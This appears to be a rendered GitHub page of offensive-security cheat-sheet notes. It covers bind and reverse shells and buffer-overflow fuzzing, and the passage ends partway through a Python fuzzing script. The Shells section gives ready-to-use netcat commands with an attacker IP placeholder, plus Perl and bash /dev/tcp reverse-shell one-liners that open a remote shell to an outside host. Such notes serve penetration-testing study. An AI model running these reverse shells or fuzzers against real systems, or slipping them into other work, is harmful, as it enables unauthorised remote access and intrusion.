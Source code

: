 ### Shells

To use bind shell, we have to follow two steps: 1, Create a Bind Shell 2,Listen for connection.
```
> $ nc <ATTACKER_IP> <ATTACKET_PORT>` 
```

```
> $ nc -lvp <ATTACKER_PORT>
```

If website is launching perl reverse shell, we can modify it to get better shell using Bash oneliner.

```
> $ perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"<HOST_IP>:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};' 2>&1
```

```
> $ bash -c 'bash -i &> /dev/tcp/<HOST_IP>/9001 0>&1'
```

### Buffer Overflows

Memory Space for a Running Process:

![image](https://user-images.githubusercontent.com/44027114/136861123-4f0359ab-456b-44d0-98f7-02be1b0a0e76.png)



Little Endian vs Big Endian (the way that the CPU reads shell code)


Buffers
![image](https://user-images.githubusercontent.com/44027114/136861010-b58309f7-4944-4495-b24c-67310eb4dd42.png)


![image](https://user-images.githubusercontent.com/44027114/136860992-e8328e06-d684-4c78-8188-d8d4f6812c05.png)


Fuzzing!!!

Pass differing amounts/types of data into a function in order to attempt to overwrite the EIP.

Python Script to fuzz via probing (increasing data by n "A" byte each time)
```python
#!/usr/bin/python
import time, struct, sys
import socket as so


# Create an array of buffers, from 1 to 1000 elements, with increments of 200 bytes each.
buff=["A"]
# max number of buffers in the array
max_buffer = 1000
# initial value of the counter
counter=100
# increment value
increment=200

while len(buff) <= max_buffer:
    buff.append("A"*counter)
    counter=counter+increment

for string in buff:
    try:
        server = sys.argv[1]
        port = sys.argv[2]
    except IndexError:
```